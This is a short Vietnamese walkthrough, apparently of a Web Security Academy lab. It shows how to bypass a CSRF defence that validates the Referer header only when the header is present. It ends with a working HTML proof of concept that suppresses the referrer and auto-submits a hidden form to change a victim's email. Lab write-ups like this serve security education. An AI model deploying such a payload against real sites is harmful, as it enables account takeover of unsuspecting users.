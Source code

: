 ![image](https://github.com/user-attachments/assets/0edfd901-b487-48e8-9e22-3dee21950b29)

![image](https://github.com/user-attachments/assets/edf68f13-c14b-4c5b-b4fd-55fda77ef04e)

Khi tiến hành đổi email và ta cố tình thay đổi referer của trang web thành của kẻ tấn công thì nó sẽ lỗi, miễn là khác domain thì sẽ lỗi.

Vậy thì ta biết được là nó sẽ check dựa trên referer. Tiến hành xóa luôn referer thì sao.

![image](https://github.com/user-attachments/assets/41f23eef-457c-49a7-b2f0-be8ba9e86937)

Sau khi xóa thì ta thấy nó hoạt động bình thường, tức là giả thuyết mà chúng ta đưa ra đã đúng.

Vậy thì bây giờ làm sao tạo ra 1 payload mà khi user click vào nó sẽ gửi POST đi mà không chứa referer, mặc định nó sẽ có.

Vậy thì ta hãy thêm vào `<meta name="referrer" content="no-referrer">` là được, vậy bây giờ hãy gen poc ra nào

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<head>
<meta name="referrer" content="no-referrer">
</head>
<body>
    <form action="https://0a7400fd04c9e34a802681bd008600d1.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="adm2in&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![image](https://github.com/user-attachments/assets/aef90450-c6d6-4e0e-9467-23f00341861c)

Vậy là đã thành công
